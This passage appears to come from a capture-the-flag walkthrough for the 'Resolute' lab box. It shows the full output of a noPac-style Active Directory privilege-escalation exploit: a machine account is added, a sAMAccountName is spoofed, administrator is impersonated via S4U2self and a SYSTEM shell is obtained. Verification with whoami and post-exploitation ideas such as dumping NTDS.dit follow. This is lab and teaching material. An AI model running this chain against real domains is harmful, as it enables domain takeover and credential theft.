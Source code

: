     [*] Current ms-DS-MachineAccountQuota = 10
    [*] Selected Target RESOLUTE.megabank.local
    [*] will try to impersonate administrator
    [*] Adding Computer Account "WIN-LE7ODKFREMZ$"
    [*] MachineAccount "WIN-LE7ODKFREMZ$" password = 7N9FdTniA0C9
    [*] Successfully added machine account WIN-LE7ODKFREMZ$ with password 7N9FdTniA0C9.
    [*] WIN-LE7ODKFREMZ$ object = CN=WIN-LE7ODKFREMZ,CN=Computers,DC=megabank,DC=local
    [*] WIN-LE7ODKFREMZ$ sAMAccountName == RESOLUTE
    [*] Saving a DC's ticket in RESOLUTE.ccache
    [*] Reseting the machine account to WIN-LE7ODKFREMZ$
    [*] Restored WIN-LE7ODKFREMZ$ sAMAccountName to original value
    [*] Using TGT from cache
    [*] Impersonating administrator
    [*]     Requesting S4U2self
    [*] Saving a user's ticket in administrator.ccache
    [*] Rename ccache to administrator_RESOLUTE.megabank.local.ccache
    [*] Attempting to del a computer with the name: WIN-LE7ODKFREMZ$
    [-] Delete computer WIN-LE7ODKFREMZ$ Failed! Maybe the current user does not have permission.
    [*] Pls make sure your choice hostname and the -dc-ip are same machine !!
    [*] Exploiting..
    [!] Launching semi-interactive shell - Careful what you execute
    ```


### 4. Verify Privilege Escalation: {#4-dot-verify-privilege-escalation}

-   Once the exploit completes, verify your new privileges using commands like `whoami /groups` or by attempting to access Domain Controller resources.



```powershell
C:\Windows\system32>whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384
```


### 5. Post-Exploitation: {#5-dot-post-exploitation}

-   With Domain Admin privileges, you now have full control over the domain and can perform actions like dumping the `NTDS.dit` file or creating new domain admin accounts.
-   To see my approach to this see my walkthrough:
    -   <https://bloodstiller.com/walkthroughs/resolute-box/>
